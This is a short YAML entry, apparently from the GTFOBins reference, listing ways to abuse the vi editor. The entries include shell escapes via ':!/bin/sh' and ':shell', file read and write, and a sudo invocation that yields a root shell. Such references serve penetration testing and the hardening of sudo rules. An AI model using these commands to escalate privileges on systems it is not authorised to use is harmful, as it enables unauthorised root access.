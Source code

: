 ```yaml
---
description: Modern Unix systems run [`vim`](/gtfobins/vim/) binary when `vi` is called.
functions:
  shell:
    - code: vi -c ':!/bin/sh' /dev/null
    - code: |
        vi
        :set shell=/bin/sh
        :shell
  file-write:
    - code: |
        vi file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vi file_to_read
  sudo:
    - code: sudo vi -c ':!/bin/sh' /dev/null
---
```

